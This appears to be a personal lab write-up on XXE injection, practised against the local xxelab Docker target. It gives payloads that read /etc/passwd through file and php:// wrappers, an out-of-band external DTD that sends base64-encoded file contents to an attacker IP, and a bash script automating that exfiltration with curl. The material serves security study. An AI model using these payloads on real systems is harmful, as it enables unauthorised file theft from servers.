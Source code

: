 # Definition
Something to do!!
## Installing and Preparing labs
I use [xxelab](https://github.com/jbarone/xxelab) to practice with this vulnerability.
```shell
git clone https://github.com/jbarone/xxelab.git
cd xxelab
docker build -t xxelab .
docker run -it --rm -p 127.0.0.1:5000:80 xxelab
```
___
Open the web using *http://localhost:5000*
![[Pasted image 20230711151257.png]]
___
# Attacking
## Understanding
First we could intercept the *Create Account* action using [[BurpSuite]].
![[Pasted image 20230711151717.png]]
First, you can see that request sent uses [[XML]] to transport form data.
___
### Verifying XXE Vulnerability
Now, let's verify if XXE vulnerability is enable.
In *Repeater* section of [[BurpSuite]] we are going to declare and use a Entity.
![[Pasted image 20230711153003.png]]
___
Now we could retrieve the list of hashed passwords by using [[Wrappers]], in this case *file* wrapper.
![[Pasted image 20230711153407.png]]
___
Another wrapper to do the same is using php.
```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=//etc/passwd">]>
```
___
### XXE OOD (Out of Bind) - External DTD
Sometimes the output of XML request doesn't show anything. So, in that case we are in XXE OOD case.
But, we could use External DTD files to retrieve sensitive information.
First, we should create a server to receive conections from the victim.
```shell
sudo python3 -m http.server 80
```
___
Then, in the XML content we should write this with the attacker IP.
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.200.128/xxe.dtd"> %xxe;]>
```
___
We must define *xxe.dtd* file from the attacker to **inject** entities and retrieve sensitive information.
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.200.128/?file=%file;'>">
%eval;
%exfil;
```
___
Now, with python server running and sending XML request you should see something like this.
![[Pasted image 20230711161247.png]]
___
### Automatization With Bash
With the content of the request, we could use a bash script to automatize the process.
```bash
#!/bin/bash

echo -ne "\n[+] Enter file to retrieve: " && read -r filePath

# entity injection
xxe_dtd="""
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$filePath\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://192.168.200.128/?file=%file;'>\">
%eval;
%exfil;
"""

echo $xxe_dtd > ./xxe.dtd

python3 -m http.server 80 &>response &
PID=$!

sleep 1

# do POST request retrieving connection to attacker
curl -s -X POST "http://127.0.0.1:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.200.128/xxe.dtd"> %xxe;]>
		<root><name>test</name><tel>123123</tel><email>cxnsxle@cxnsxle.com</email><password>cxnsxle123</password></root>'

# response filter and decode
cat response | grep -oP "/?file=\K[^.*\s]+" | base64 -d

# brute kill of http server
kill -9 $PID
wait $PID 2>/dev/null

rm -f response 2>/dev/null

```
___